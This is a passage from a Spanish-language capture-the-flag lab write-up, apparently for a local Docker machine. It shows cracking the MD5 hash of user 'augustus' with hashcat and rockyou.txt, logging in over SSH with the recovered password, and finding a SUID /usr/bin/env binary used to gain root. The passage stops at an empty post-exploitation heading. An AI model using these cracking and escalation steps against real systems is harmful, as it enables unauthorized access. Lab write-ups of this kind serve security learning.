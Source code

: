 ```
061fba5bdfc076bb7362616668de87c8
```

---

## 7. 🧠 Cracking de Hash

```bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

| Parte del Comando                            | Descripción                                                                 |
|----------------------------------------------|-----------------------------------------------------------------------------|
| `hashcat`                                     | Herramienta de fuerza bruta para crackear hashes.                          |
| `-m 0`                                        | Especifica el tipo de hash: **MD5**.                                        |
| `-a 0`                                        | Modo de ataque: **diccionario simple**.                                     |
| `hash.txt`                                    | Archivo que contiene el hash a crackear.                                    |
| `/usr/share/wordlists/rockyou.txt`           | Diccionario de contraseñas comunes a utilizar en el ataque.                 |

Resultado:

```
061fba5bdfc076bb7362616668de87c8:lovely
```

✅ Contraseña del usuario `augustus`: `lovely`

---

## 8. 🧑‍💻 Acceso SSH

```bash
ssh augustus@172.17.0.2
```

Con la contraseña `lovely`, se obtiene acceso exitoso.

---

## 9. 🚀 Escalada de Privilegios

```bash
find / -perm -4000 -type f 2>/dev/null
```

✅ Se detecta `/usr/bin/env` como posible vector de escalada.

📌 Tras explotación, se obtiene acceso como **root**.

---

## 🔧 Post-Explotación
